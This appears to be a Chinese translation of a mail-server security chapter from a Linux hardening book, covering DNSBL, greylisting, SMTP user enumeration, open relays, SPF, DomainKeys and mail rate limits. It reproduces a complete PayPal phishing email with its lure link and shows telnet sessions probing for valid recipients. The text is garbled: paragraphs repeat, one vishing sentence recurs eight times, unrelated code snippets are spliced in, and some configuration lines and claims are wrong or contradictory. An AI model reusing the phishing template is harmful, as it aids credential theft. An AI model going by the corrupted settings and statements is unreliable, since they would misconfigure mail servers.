大多数情况下，DNSBL 不在处理的消息中使用头部，而是在 SMTP 会话期间立即拒绝发送者。

这里有一个 DNSBL 列表：

```
<Verbatim listing 9>
$ telnet mail.example.com 25
Trying 192.168.1.1...
Connected to mail.example.org.
Escape character is ' '.
220.example.org SMTP mail.example.org ; Wed, 11 Oct 2006 12:22:07 -0400
mail from:joe@example.org
550 5.0.0 Banned due to spam
</Verbatim listing>
```

我们对 DNSBL 的讨论将相当激进：不要使用它们。与大众观点相反，它们通常是不准确的、缺乏维护的，并且容易产生误报。在这些列表中删除误报是一个浪费管理员时间的痛苦过程，而且从源上检测误报本身是一项困难的任务。

如果实施了，如 `abuse@`、`admin@` 和 `postmaster@` 等地址应该始终免于 DNSBL 检查，允许被封的客户端在发生错误包含时联系管理员。遗憾的是，这种情况并不常见。

互联网上有许多资源可以检查某个地址是否包含在 DNSBL 中。最准确的之一是 `http://www.rbls.org`。

### 灰名单 (Greylisting)

一种名为灰名单的新技术在过去几年中变得越来越流行；它涉及临时拒绝所有指向从未出现过的“三元组”（triplet）的邮件……

## 第 14 章：邮件服务 443

通过这种三元组（triplet），你可以识别连接客户端的 IP 地址、信封发送者地址和信封收件人地址。一旦消息被临时拒绝，连接的服务器将根据队列策略尝试重新发送；完成后，MTA 将接受该消息并缓存这些三元组指定的时间（通常不超过一周）。这种临时拒绝所有消息的原理不会导致消息丢失（因为合规的 MTA 会重新发送它们），但可以阻止某些恶意流量，因为在大多数情况下，垃圾邮件发送者收到临时错误后并不会去重新发送。

尽管灰名单机制是完全透明且在理论上是有害的，但总的来说这是一种糟糕的做法：首先，它减慢了所有的 SMTP 流量（包括合法流量），延迟从几分钟到几小时不等。此外，灰名单机制对于每个邮件网关来说都是队列的噩梦，繁忙的网关在保留所有灰名单消息所需的资源方面将得尤为苦不堪。

尽管缓存只拒绝每个三元组的第一条消息，但由于某些服务器接收的 SMTP 流量巨大，而且在某些情况下，三元组很容易导致其失效。在坏的情况下，由于 IP 地址更改或不同的信封发送者（某些服务器使用动态信封发送者，尤其是邮件列表服务器），重试可能来自不同的三元组，导致合法消息不断重发直到其在队列中过期。

如果你实施灰名单机制，请注意它可能引起的问题，并意识到这是出于对其他服务器队列的“友好”。

### 分布式校验和 (Distributed Checksum)

许多反垃圾邮件系统使用分布式校验和来检测并最终过滤垃圾邮件。其核心思想是：垃圾邮件可能会发送给互联网上的大量收件者；维护一个包含通过 MTA 服务器的单条消息校验和的中央数据库，允许你对它们进行比较，并检查它们重复的次数是否足以将其分类为垃圾邮件。

校验和通常不是针对整个消息计算的，而是每次使用模糊和随机算法对不同部分进行计算，因为垃圾邮件对于每个收件者可能略有不同，例如第一行问候语中的名称可能不同。对于收到的每条消息，实现基于分布式校验和过滤器的 MTA 都会连接到指定的服务器，发送校验和，接收响应并评估结果。

分布式校验和需要对合法流量进行仔细的白名单处理，由于某些原因，这些流量会被发送大量收件者，最典型的邮件列表流量（特别是在大型公告列表上）。它还增加了你端的网络流量，因为每条收到的消息都需要在中央服务器查询。

目前有几种实现这种理念的过滤器，最著名的包括 `DCC`、`Razor` 和 `Pyzor`。

## 破解 Linux 安全：Linux 安全秘密与解决方案

### 挑战-响应 (Challenge-Response)

某些垃圾邮件过滤系统涉及挑战-响应架构，该架构会将邮件发回给发送者，要求其确认已发送的消息。确认可以是回复挑战邮件、访问消息中提供的 URL，或提供其他确认手段。将这类系统想象成用户级的灰名单；所有消息都必须由发送的用户手动确认。其理论是，垃圾邮件发送者不会花精力去确认消息。

出于许多原因，必须不惜代价地避免这类垃圾邮件防护。首先，任何形式的自动且由人类发送的邮件都是无法确认的；确认是一个需要人工干预的操作，而自动化邮件显然预料到了这类过滤器（自动化消息的回复地址通常无石沉大海）。如今许多重要且合法的邮件流量都是自动化的。想想网页表单确认、在线购物邮件、时事通讯等等；此类层不穷。

此外，你真的无法期望发送者对发给你的邮件采取进一步行动，而且具有讽刺的是，挑战消息极可能被大多数过滤器标记为垃圾邮件。在处理邮件列表时，挑战消息也尤为烦人，而且对所有不对挑战机制做出反应的流量进行白名单处理是一项艰巨的任务。

如果尽管如此你仍想使用这种过滤方式，请务必遵循 `http://www.templetons.com/brad/spam/challengerespace.html` 中介绍的最佳实践。

### 初始阶段 (The Initial Phase)

`HELO`/`EHLO` 命令用于每个 SMTP 连接的初始阶段，用于连接客户端到 MTA。`HELO` 命令是原始命令，而 `EHLO` 命令是扩展版本，它除了介绍客户端外，还用于请求 SMTP 服务扩展。该命令用于发送客户端身份作为名称。

即使服务器不支持 SMTP 扩展，所有服务器都应该支持 `EHLO`。`EHLO` 命令始终优于旧的 `HELO` 命令，后者作为向后兼容的备选方案存在。

在下面的示例中，我们展示了一个空问候，以及一个以非域名内容开头的问候被拒绝的情况。客户端域名有效，但发送虚假域名也是被接受的（正如我们在“邮件路由”中提到的）。

```
<Verbatim listing 10>
# telnet mail.example.org 25
Trying 192.168.1.1...
Connected to mail.example.org.
Escape character is '^'.
220 box.example.org ESMTP mail.example.org ; Mon, 9 Oct 2006 15:42:23 GMT
HELO
501 5.0.0 HELO requires domain address
HELO !@@4
501 5.0.0 Invalid domain name
HELO test

250 mail.example.org Hello testclient.example.org [10.1.7.2], pleased to you
HELO testclient.example.org
250 mail.example.org Hello testclient.example.org [10.1.7.2], pleased to you
HELO testclient.example.org
250 mail.example.org Hello testclient.example.org [10.1.7.2], pleased to you

+   250-ENHANCEDSTATUSCODES
250-PIPELINING
250-8BITMIME
250-SIZE 10485760
250-DSN
250-ETRN
250-STARTTLS
250-DELIVERY
250 HELP
</Verbatim listing>
```

某些 MTA 允许验证域名。在 Postfix 中，你可以使用 `check_access` 正则进行检查，而在 Sendmail 中你必须重新编译。

## 第 14 章：邮件服务

被诱骗连接到。这种恶意重定向的常用策略是使用一个与合法网站视觉上相似的 URL（例如，使用 `www.bank-one.com` 而不是 `www.bankone.com`），希望受害者不会注意到。另一种广泛使用的技术显示原始银行的登录页面，但实际上会重定向到攻击者的网站，例如，<a href="http://www.owned.site.com">http://www.YourBank.com</a></a>。最后这种技术通常可以被带有邮件模块的反垃圾病毒引擎检测到。

<逐字记录列表 12>

[钓鱼示例]

```
From - Mon May 26 18:55:34 2008
X-Account-Key: account
X-UIDL: 5820481d700c2ae
X-Mozilla-Status: 0001
X-Mozilla-Status2: 00000000
X-Mozilla-Keys:
Return-Path: <kstaltierimnsdgs@xxxxxx.org>
Delivered-To: pete@isecom.org
Received: (gmail 31502 invoked by uid 3048); 26 May 2008 16:48:05 -0000
Delivered-To: isecom.org:pete@isecom.org
Received: (gmail 31502 invoked from network); 26 May 2008 16:48:05 -0000
Received: from mailwash4.pair.com (66.39.2.4)
by kunatri.pair.com with SMTP; 26 May 2008 16:48:05 -0000
Received: from localhost(host [127.0.0.1])
by mailwash4.pair.com (Postfix) with ESMTP ID 03AEC933
for pete@isecom.org; Mon, 26 May 2008 12:48:04 -0400 (EDT)
Received: from rossapalooza (host-lle32-38-dynamic-0-10-r.retail.spamital.com [10.038.122])
by mailwash4.pair.com (Postfix) with ESMTP ID 33CB29B33
for pete@isecom.org; Mon, 26 May 2008 12:48:03 -0400 (EDT)
Received: from 10.038.122 by mail.xxxxxxx.org; Mon, 26 May 2008 17:48:03 +0100
Date: Mon, 26 May 2008 17:48:03 +0100
From: support@intl.paypal.com
X-Mailer: The Bat! (v2.10) Educational
Reply-To:kstaltierimnsdgs@xxxxxx.org
X-Priority: 3 (Normal)
Message-ID: <991322082.337290279721721@xxxxxx.org>
To: pete@isecom.org
Subject: PayPal Account Suspension
MIME-Version: 1.0
Content-Type: text/html; charset=Windows-1252
Content-Transfer-Encoding: 7bit
```

```html
<!DOCTYPE html PUBLIC "//W3C//DTD HTML 4.01 Transitional//EN">
<HTML><HEAD><TITLE></TITLE></HEAD>
<BODY>
<style type="text/css">
<!----
style3 (font-size: 14px)
style4 (font-size: 12px; )
-->
</style>
<table width="522" border="0">
<tr>
<td><a href="https://www.paypal.com">
</a>
</td>
</tr>
<tr>
<td width="516"><P class="style3">爱的 PayPal 客户，<BR>
我们最近审核了您的账户，并怀疑您的账户上存在未经授权的交易。<BR>
您的账户是我们主要关注的问题。作为预防措施，我们临时限制了您对敏感信息的访问。<BR>
PayPal 功能。为了确保您的账户未被破坏，请点击“解决”（Resolution）以确认您作为 PayPal 成员的身份。</P>
```

- 登录您的 Paypal 用户名和密码。

- 确认您作为 Paypal 卡片会员的身份。

```html
<TABLE cellSpacing=0 cellPadding=5 width="100%" align="center">
<TBODY>
  <TR>
    <TD class="style3"><SPAN class="emphasis">请点击此处确认账户信息
    通过 <A href="http://PayPal.client-confirmation.com/index.htm"target="_self">解决</A> 并完成限制。</SPAN></TD>
  </TR>
</TBODY>
</TABLE>
<P>*
<P class="style4"><strong请勿回复此邮件。发送到此地址的邮件将无法得到回复。</strong></P>
<P class="style3">版权所有 © 1999</P>
</BODY></HTML
```

被诱骗连接到。这种恶意重定向的常用策略是使用一个与合法网站视觉上相似的 URL（例如，使用 `www.bank-one.com` 而不是 `www.bankone.com`），希望受害者不会注意到。另一种广泛使用的技术显示原始银行的登录页面，但实际上会重定向到攻击者的网站，例如，一个 <a href="http://www.owned.site.com">http://www.YourBank.com</a></a>。最后这种技术通常可以被带有邮件模块的反垃圾病毒引擎检测到。

<逐字记录列表 12>

[钓鱼示例]

...为了确保您的账户未被破坏，请点击“解决”（Resolution）以确认您作为 PayPal 成员的身份。

- 登录您的 Paypal 用户名和密码。

- 确认您作为 Paypal 卡片会员的身份。

...**请勿回复此邮件。发送到此地址的邮件将无法得到回复。**

...版权所有 © 1999

...这种钓鱼攻击（vishing）通过网络 IP（VoIP）允许访问某些域名，特别是由于邮件中的内容。

...这种钓鱼攻击（vishing）通过网络 IP（VoIP）允许访问某些域名，特别是由于邮件中的内容。

...这种钓鱼攻击（vishing）通过网络 IP（VoIP）允许访问某些域名，特别是由于邮件中的内容。

...这种钓鱼攻击（vishing）通过网络 IP（VoIP）允许访问某些域名，特别是由于邮件中的内容。

...这种钓鱼攻击（vishing）通过网络 IP（VoIP）允许访问某些域名，特别是由于邮件中的内容。

...这种钓鱼攻击（vishing）通过网络 IP（VoIP）允许访问某些域名，特别是由于邮件中的内容。

...这种钓鱼攻击（vishing）通过网络 IP（VoIP）允许访问某些域名，特别是由于邮件中的内容。

...这种钓鱼攻击（vishing）通过网络 IP（VoIP）允许访问某些域名，特别是由于邮件中的内容。


# 攻防 Linux：Linux 安全秘籍与解决方案

（执行本地投递）并且没有关于有效接收者和/或末端过滤的信息。

即使你的网络没有直接允许恶意邮件流量，每个邮件服务器都不可避免地以邮件退回（`email bounces`）的形式发送一定数量的未垃圾邮件。恶意邮件通常针对无效用户，试图以此“收割”你的邮件域名并发现合法地址。其副作用是大量的退回邮件从你的网络发送到恶意邮件的信封地址。然而，在大多数情况下，此类邮件的发送者是被伪造的，以规避检测和追溯，这意味着你的退回邮件发送到了一个从根上就没有发送过该邮件的地址。

每天，互联网上的邮箱箱都会收到针对其从未发送过的内容的回复消息——这是当今邮件流量中的“背景噪声”。尽管从 `SMTP` 的角度来看这些回复是完全合法的，但这些退回邮件可能会被接收方视为恶意流量，特别是当它们带有原始邮件正文时。

<逐字列表 13>

[退回邮件示例]

```
Date: Mon, 5 Mar 2007 11:18:28 -0300
From: Mail Delivery Subsystem <MAILER-DAEMON@hurayraint.unju.edu.ar>
To: security@isecom.org
Subject: Returned mail: see transcript for details
---
	-- Attachment #1 --
---
	-- Type: text/plain, Encoding: 7bit, Size: 0.5K --
The original message was received at Mon, 5 Mar 2007 04:57:32 -0300
from 190-48-227-213.speedy.com.ar [190.48.227.213] (may be forwarded)
---
The following addresses had had permanent fatal errors
<info@phycs.unju.edu.ar>
	(reason: 550 <info@phycs.unju.edu.ar>... User unknown)
	---
	-- Transcript of session followers ---
		... while talking to mail.phycs.unju.edu.ar:
		\> RCPT TO:<info@phycs.unju.edu.ar>
		<<< 550 <info@phycs.unju.edu.ar>... User unknown
550 5.1 <info@phycs.unju.edu.ar>... User unknown
	---
	-- Attachment #2 --
	---
	-- Type: message/delivery-status, Encoding: 7bit, Size 0.3K --
Reporting-MTA: dns; hurayraint.unju.edu.ar
Arrival-Date: Mon, 5 Mar 2007 04:57:32 -0300
Final-Recipient: RFC822; info@phycs.unju.edu.ar
Action: failed
Status: 5.1.1
Remote-MTA: DNS; mail.phycs.unju.edu.ar
Diagnostic-Code: SMTP; 550 <info@phycs.unju.edu.ar>... User unknown
Last-Attempt-Date: Mon, 5 Mar 2007 11:18:27 -0300
---
	-- Attachment #3 --
```

```
-- Type: message/rfc822, Encoding: 7bit, Size: 4.5K --
Date: Mon, 05 Mar 2007 09:50:37 +0200 (CST)
To: info@fhycs.unju.edu.ar
Subject: Semana Santa, Pensano en Gesell?
From: Semana Santa y Vacaciones en familia <security@iasecom.org>
...
/Verbatim listing
```

## 管理出站流量与退回邮件

为了管理你的出站流量，你的策略应该明确定义你的网络和邮件中继上哪些类型的邮件流量是可接受的。努力不成为链条中最弱的一环是非常重要的，特别是在这种情况下，作为垃圾邮件（`SPAM`）或其他类型恶意软件的源头或中继站。某些特定配置会让垃圾邮件发送者的生活变得轻松，我们将在接后的章节中讨论这一点。

为了标准化退回邮件，人们利用常用的 `SMTP` 扩展 `DSN`（交付状态通知，`RFC 1891`）进行了努力。`DSN` 消息不仅限于退回邮件；你也可以用它对任何邮件交付进行积极确认。尽管它被广泛接受，但它并不是 `SMTP` 规范的一部分（属于扩展），由于这个原因，某些 `SMTP` 实现对退回邮件使用不同的格式。

`Qmail` 软件是 `MTA`（邮件传输代理）世界中的一个例外，因为它从不通过 `SMTP` 向无效接收者发送错误；它总是通过退回邮件进行交付。此外，`Qmail` 不支持 `DSN`，但有自己的退回格式（`QSBMF`）。

除了会对你的被病毒或恶意软件感染的 `MTA` 消息带来困扰和问题外，如果退回邮件中包含原始邮件的完整正文，可能会对你的信誉造成严重威胁。从你的 `MTA` 发送并以你的域名作为发送者的退回邮件将保留恶意内容，并被投到最初伪造的地址（位于你的组织外部），这实际上会让你看起来像一个恶意发送者。

当然，在退回中只保留头部具有节省带宽的显而易见的效果，考虑到你可能丢失的大量自愿流量，这还能节省大量的资源。在 `Sendmail` 中，你可以通过在标志中添加 `bodyreturn` 来在退回消息中仅保留头部而不保留完整正文：

```
define('confACY_FLAGS','nobodyreturn')
```

在 `Postfix` 中，你可以设置 `bounce_size` 来在退回中仅保留头部而不保留完整正文。如果支持 `DSN`，你可能还想限制退回邮件的大小：

```
define('confACY_FLAGS','nobodyreturn')
```

## 用户枚举（Enumeration）

| 指标 | 数值 |
| :--- | :--- |
| 流行度 | 8 |
| 简单性 | 3 |
| 影响 | 3 |
| 风险 | 5 |

扫描和用户枚举始终是攻击的步骤之一。垃圾邮件发送者通过这种技术来收集信息。如果退回邮件中包含原始邮件的完整正文，从你的 `MTA` 发送并以你的域名作为发送者的退回邮件将保留恶意内容，这实际上会让你看起来像一个恶意发送者。

在退回中只保留头部具有节省带宽的显而易见的效果，考虑到你可能丢失的大量自愿流量，这还能节省大量的资源。


进入`/path/to/xxx`目录，找到`xxx.json`。

在表达式`cvar = avar + bvar`中，加法运算符（`+`）将`avar`与`bvar`相加，得到它们的和`cvar`

在`List.of(arg0, arg1, arg2)`中，`List`接口的工厂方法`of()`接受一系列的元素，返回包含它们的只读列表。

之后我们这样调用`cmd`命令：`cmd arg0 arg1 arg2`。

```
if (condVar > someVal) {console.log("xxx")}
```

当然，在退回中只保留头部具有节省带宽的显而易见的效果，考虑到你可能丢失的大量自愿流量，这还能节省大量的资源。在 Sendmail 中，你可以通过在标志中添加 `bodyreturn` 来在退回消息中仅保留头部而不保留完整正文：

```
define('confACY_FLAGS','nobodyreturn')
```

在 Postfix 中，你可以设置 `bounce_size` 来在退回中仅保留头部而不保留完整正文。如果支持 DSN，你可能还想限制退回邮件的大小：

```
define('confACY_FLAGS','nobodyreturn')
```

## 用户枚举（Enumeration）

| 指标 | 数值 |
| :--- | :--- |
| 流行度 | 8 |
| 简单性 | 3 |
| 影响 | 3 |
| 风险 | 5 |

扫描和用户枚举始终是攻击的步骤之一。垃圾邮件发送者通过这种技术来收集信息。……（此处已处理重复内容）

### Hacking Exposed Linux: Linux 安全秘密与解决方案

`address` 返回错误与否。大多数 MTA 都会立即返回 SMTP 连接以节省带宽；其中某些 MTA（最著名的是 Qmail）具有对垃圾邮件友好的行为，即接受所有地址的消息，稍后如果地址无效则发送退信邮件。

在同一个 SMTP 连接上可以指定多个信封地址（envelope addresses），这一事实有助于垃圾邮件过程：

```
# telnet mail.example.org 25
Trying 192.168.1.1...
Connected to mail.example.org.
Escape character is '^'.
220 box.example.org ESMTP mail.example.org ; Mon, 9 Oct 2006 15:42:23 GMT
HELO testclient.example
250 mail.example.org Hello testclient.example.org [10.1.7.2], pleased to meet you
mail from:evil@testclient.example.org
250 2.1.0evil@testclient.example... Sender ok
rcpt toadmin
250 2.1.5 admin... Recipient ok
rcpt toroot
250 2.1.5 root... Recipient ok
rcpt tosales
250 2.1.5 sales... Recipient ok
rcpt tobob
550 5.1.1 bob... User unknown
rcpt tojoee
550 5.1.1 joe... User unknown
rcpt tomike
250 2.1.5 mike... Recipient ok
```

防止大规模用户枚举的一种技术是限制同一 SMTP 会话中允许的接收者数量。Sendmail 提供了 `BadrcptThrottle` 变量：

```
define(`confBAD_RCPT_THROTTLE`,`100`)
```

Postfix 提供了 `smtpd_recipient_limit` 变量：

```
smtpd_recipient_limit = 100
```

## 第 14 章：邮件服务

### 开放中继 (Open Relays)

| 流行度 | 7 |
| :--- | :--- |
| 简单性 | 7 |
| 影响 | 5 |
| 风险等级 | 6 |

开放中继是垃圾邮件发送者的天堂，必须不惜一切地避免。开放中继是一个配置错误的服务器，它允许任何客户端向任何邮件域发送消息（而不仅仅是逻辑要求的本地和/或被接受的域）。

垃圾邮件发送者不断扫描互联网地址空间寻找开放中继，一旦发现，就会利用它们以极高的速度发送垃圾邮件。其原因是，当开放中继可以自由使用时，直接从邮件用户代理（没有队列概念）或垃圾邮件发送者的 MTA 服务器发送数百万条消息是不现实的。除了在链中增加新的跳数外，开放中继还允许垃圾邮件发送者滥用别人的带宽和邮件队列的磁盘空间。

当然，有人可能会故意开启中继，但这样做的原因（在没有设置蜜罐的情况下）是非常模糊的。

#### 避免设置开放中继

互联网提供了许多检查开放中继的资源；其中一个可以在 http://www.abuse.net/relay.html 获取。你可以找到更多，也可以通过从不可信的 IP 地址向外部域名发送消息来测试你的服务器：

```
# telnet mail.example.org 25
Trying 192.168.1.1...
Connected to mail.example.org.
Escape character is '^j'
220 box.example.org SMTP mail.example.org ; Mon, 9 Oct 2006 15:42:23 GMT
HELO testclient.example.org
250 mail.example.org Hello testclient.example.org [10.1.7.2], pleased to meet you
mail from:@test.com
250 2.1.0 evil@test.com... Sender ok
rcpt to:evil@somedomain.com
550 5.7.1 evil@somedom.com... Relaying denied.
```

始终确保你的 MTA 只向接受的域以及来自信任的子网发送。对于需要通过你的邮件服务器发送消息的外部客户端（即漫游客户端），可以使用 SMTP AUTH 或 TLS 证书验证来中继到外部经过验证的 IP 地址。

### 数据篡改或完整性

由于邮件的性质及其用途——与他人交流——确保消息在不被修改的情况下传递非常重要。在某些情况下，需要保护消息的机密性，这可以通过加密实现。另一个重要问题是非可否认性。有时你需要消息来源的证明，例如，在接收或发送与人员或股票相关的指令时。

在本节中，我们将解决这些问题并对此提供一些解决方案。

#### 发件者验证/伪装/不可否认

| 流行度 | 7 |
| :--- | :--- |
| 简单性 | 5 |
| 影响 | 7 |
| 风险等级 | 6 |

邮件的分布式特性使得有时确保发件者确实是其所称的人，甚至收到的消息是真实的变得非常重要。尽管邮件不是发布重要指令的可靠或安全方式，但许多人确实这样做，例如，通过股票投资 100 万美元，因为……而解雇 John Doe。因此，需要在用户级别或 MUA 增加另一种认证，使用户能够执行此类操作。

##### OpenPGP

你可以轻松在 MUA 中使用 OpenPGP（由 GnuPG 等实现）进行签名。必须注意的是，对所有发出的消息进行签名并不是良好的做法，它只应保留真正敏感的消息。在公共服务器上使用公钥允许他人获取正文。经常对消息进行签名会对未加密的消息产生预期（这不应如此）。

### 根权限与本地传递安全

| 流行度 | 5 |
| :--- | :--- |
| 简单性 | 5 |
| 影响 | 10 |
| 风险等级 | 7 |

与任何软件一样，要仔细评估邮件流中使用的权限和特权。大多数守护需要以特权用户运行或具有 setuid 位的原因总是与在绑定套接字后进行本地传递有关。某些邮件服务器允许你自定义环境（如 Sendmail），而另一些只能按照作者设计的方式执行（如 Postfix）。

#### MTA 权限的正确配置

在不进行本地传递时，可以使用以下变量将 Sendmail 安全地限制在非根环境中：

```
confRUN_AS_USER':124'
```

配置文件和队列必须进行相应调整。如果本地传递代理（如 Procmail 或 Maildrop）具有 setuid，仍然可以执行本地传递（更重要的是，它是被执行的；仅仅有 setuid 标志是不够的，盲目应用它是所有 NIX 本地漏洞之源）。否则，对于安全的本地传递，你需要一个根进程和一个 setgid 二进制文件。在这种情况下使用 root 实际上增加了安全性，因为它允许邮件服务器降低权限并作为目标用户解析（用户配置转发到电子邮件地址或程序）文件，这是最安全的方法。因此，你可以选择将特权提升（或从根降低到其他用户）从无特权 MTA 调用的 setuid 传递代理转移到根 setgid 位，我们提到过这对于允许本地用户在发送给其他本地用户时写入本地队列非常有用。

注意，在传递给程序时，你可以限制执行路径。你可以配置 Sendmail 使用它自己的受限 shell，称为 `smrush`，它对接受的命令进行限制并避免常见的 shell 攻击。请参阅 `smrush` 页面了解用法。可以通过指令作为一个功能：

```
FEATURE('smrush','/usr/bin/smrush')
```

你还可以通过 `local_command_shell` 变量配置 Postfix 的本地传递使用受限 shell。

### 报头与信任关系

| 流行度: 5 |
| 简单性: 5 |
| 影响力: 5 |
| 风险等级: 5 |

我们提到过报头*绝不应该*被信任或被视为可靠的信息源。这使得对于如何有效过滤或拒绝未经授权的邮件产生了巨大需求，因为正如我们之前所说的，你应该只中继来自本地或可信源的邮件。

最近引入了两种用于验证外部邮件的协议：发者策略框架 (SPF) 和域名密钥 (DomainKeys)。这些系统涉及邮件消息的不同部分，并且可以同时使用。

#### 发者策略框架 (SPF)

SPF 是一种简单的方法，通过将允许从特定域名发送消息的 IP 地址信息与 DNS 文本记录绑定。通过这种方式，DNS 服务器可以告诉世界，来自你域的邮件应仅来自某些特定的地址；其他 MTA（邮件传输代理）在接收消息时可以查询你的 DNS 记录，并将该信息与显然来自你域的传入邮件头进行交叉引用。

让我们来看一个 SPF 记录示例：

```
$ dig -t txt gmail.com
; <<>> DIG 9.3.2 <<>> -t txt gmail.com
;; global options: printcmd
;; Got answer:
; ->>>|HEADER<< opcode: QUERY, status: NOERROR, id: 21409
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 4, ADDITIONAL: 4
;; QUESTION SECTION:
;gmail.com.                                     IN TXT
;; ANSWER SECTION:
gmail.com.                     300    IN TXT "=spf ip4:216.239.56.0/23
ip4:64.233.160.0/19 ip4:66.249.80.0/20 ip4:72.14.192.0/8 ?all"
```

查询 gmail 域名，你可以看到 Google 指出（根据 Google 的说法）只有他们的 IP 类可以从 @gmail.com 发送消息。

在处理这项技术时，有几个几点需要考虑。首先，仅将其用于*真阳性*和（*白名单*），这意味着如果你发现了一个 SPF 条目且消息匹配成功，那么验证它并提高你的评分是安全的。

## 第 14 章：邮件服务

然而，SPF 的缺失或否定查询绝不应该在你的过滤决策中占据过大权重——它不是一项标准技术，因此未被完全采用。SPF 域名允许你明确说明所发布的信息应该以多少置信度被处理。这些级别有 PASS（始终允许邮件通过）、NEUTRAL（不执行策略）、SOFTFAIL（留待解释）和 FAIL（拒绝）。

SPF 仅验证信封头（envelope headers），如所示，它并没有解决伪造发件人（From）头或邮件正文中的任何内容，而这通常欺骗了大多数人。从 DNS 方面来看，SPF 很容易发布（此处应为从 DNS 方面来看 SPF 很容易）。在应用层面实现则稍微困难一些。有两个库（`libspf` 和 `libspf2`）以及几十个 Perl 应用，并且 Spassassin 显式支持 SPF 以提高评分。对于过滤应用程序，通过服务实现可以添加一个包含验证结果的自定义报头。

注意，SPF 会破坏转发，因为任何转发的邮件的发件者都没有被转发服务器的域名重写。这意味着任何转发的邮件对于感知 SPF 的 MTA 来说都是无效的（如果该域名发布了记录）。这是在实现这项技术时应该考虑的严重问题。一个提出的解决方案是发件者重写方案 (SRS)，它在转发时返回返回路径（Return-Path）。

未来要看到一个完整的 SPF 实现需要任何邮件转发机制都完全采用 SRS，这是不太可能的。这是信任该机制进行真阳性和白名单化处理的唯一原因。

SPF 并不是一种广泛实施的技术，但大型提供商（特别是 AOL 和 Google 的 Gmail）正在使用它来提高反垃圾邮件评分的准确性。

### 域名密钥 (DomainKeys)

DomainKeys 是一种同时验证发送者和消息完整性的机制。它通过在发送时使用域名公钥对邮件报头进行加密签名来实现。密钥通过 DNS 记录发布，因此执行最终验证的接收 MTA 可以检索它以供后续检查。

这是 Gmail 的 DomainKey 记录：

```
# dig -t beta.domainkey.gmail.com
; <<\> DIG 9.3.0 <<> -t beta.domainkey.gmail.com
;; global options: printcmd
;; Got answer:
;; ->>>HEADER opcode: QUERY, status: NOERROR, id: 23202
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 4, ADDITIONAL: 0
;; QUESTION SECTION:
;;beta._domainkey.gmail.com IN TXT
;; ANSWER SECTION:
beta._domainkey.gmail.com 300 IN TXT "t=y\; k=rsa;
```

## 破解 Linux：限制查询秘密与解决方案

```
p=MIGFMA0GCSIsbbDQEBAQUAA4GNADBCQIBKQGC69TURXN0Nf+G/m35r
t4p6sKmVgGU1d6cw2BxnKJNIKm0F8tXkxBP6n7juTR1Be8ubAgtqmz2r
WK4lIMjHoqcGWZiBlkip/MKdZEWMCFl1Y6qoUivRktXtZbdxJ7NOLXtJG2Y/
RAHSVKKyhSP9nRs2f/Ibr5pUQIDAQAB
```

### Hacking Exposed Linux：Linux 安全秘籍与解决方案

在所有冗余设备中，最佳实践是至少在远程位置（使用不同 ISP 的服务商）设置一个异地的备用或三级 MX 服务器。在某些情况下，这可以通过与备用 ISP 或“合作伙伴”组织达成协议来实现，允许您在主服务器不可用时接收邮件流量并安全地存储它们。

#### 备用 MX 服务器与用户验证

| 流行度: | 10 |
| :--- | :--- |
| 简单性: | 5 |
| 影响: | 4 |
| 风险等级: | 6 |

备用服务器在您的 DNS MX 记录中具有较高的优先级（因此优先级较低），应仅在主服务器宕机时使用；然而，您可能会发现，无论其是否处于备用状态，仍然接收到大量的流量。原因很简单：垃圾邮件发送者依靠这样一个事实——他们不太可能对您的备用邮件服务器实施深度过滤（该服务器与主服务器具有相同的中继规则）。

这个假设非常准确。备用服务器——有时位于异地、受其他组织的控制，并可能是 MX 交换非正式协议的一部分——在不检查地址有效性的情况下对中继邮件进行存储和转发。这使得它们对垃圾邮件非常“友好”，因为我们不会在 SMTP 连接阶段被拒绝，但垃圾邮件邮件会被存储在队列中，如果地址无效，最终将会发生退信（bounce），这对于垃圾邮件发送者来说并不是问题，因为正如我们提到的，他们很可能伪造了信封发送者（envelope sender）。由于垃圾邮件的信封发送者极有可能是伪造且无效的，您的退信将一直留在队列中直到过期。

在备用服务器上，邮件服务器很少实施垃圾邮件和反病毒过滤。

##### 对备用 MX 服务器应用相同的过滤规则

除非您想面对队列管理的噩梦，否则备用邮件服务器应始终应用与主服务器相同的过滤和验证策略。如果您的您的环境中可行，可以通过 LDAP 或数据库钩子在外部服务器上安全地执行用户验证；请检查您的 MTA 文档以获取所有可能的选项。

设计并实现一种安全的方法允许外部服务器（备用或三级 MX 服务器可能位于外国局域）访问您的认证系统也非常重要：LDAP、Active Directory、Novell……

### 不受控制的邮件流量

| 流行度: | 6 |
| :--- | :--- |
| 简单性: | 3 |
| 影响: | 7 |
| 风险等级: | 5 |

大多数 MTA 允许您调整邮件服务器的每一个方面。特别是当处理繁忙的邮件服务器（每天约 100 万条消息）和巨大的队列（在良好的配置下，少于 10,000 条消息不应该是问题）时，根据您的邮件流量情况进行调优通常是必要的。当然，记住过早调优是万万恶之源。

如果邮件负载没有经过正确调整，过多的请求可能会导致队列无法管理、填满文件系统，甚至给处理器带来过重的负载；这最终会导致拒绝服务（DoS）。

#### 控制您的邮件流量

对消息大小强制执行某种限制始终是一个好主意。如今的带宽和连接标准（特别是针对客户端）并没有让它像过去那样至关重要，但完全没有限制始终是一个坏习惯，可能导致 DoS 状态。


每个 MTA 均允许某种形式的消息限制。Sendmail 使用 `MaxMaxSize` 变量，而 Postfix 提供了 `message_size_limit` 设置。

```
define(`confMAX_MESSAGE_SIZE', '524280') # 单位为字节的大小，5 MB
```

不允许邮件使用无限资源的相同哲学也适用于连接参数，例如每个客户端的连接速率和连接数，以及允许的最大子进程数。Sendmail 和 Postfix 为此任务提供了许多选项；使用保守的变量启用它们，并在需要时进行调优：

```
define(`confMAX_DAEMON_CHILDREN', '500')dnl
define(`confQUEUE_LA', '20')dnl
define(`confREFUSE_LA', '30')dnl
define(`confCONNECTION_RATE_THROTTLE', '30')dnl
FEATURE(`conncontrol', `terminate') dnl
FEATURE(`ratecontrol', ` dnl
ClientRate: 10
ClientRate: 129.130
ClientConn: 8
ClientConn: 129.130 0
```

# Hacking Exposed Linux：Linux 安全秘籍与解决方案

## 暴力破解与密码重置问题

| 流行度 | 9 |
| :--- | :--- |
| 简单性 | 3 |
| 影响 | 10 |
| 风险等级 | 7 |

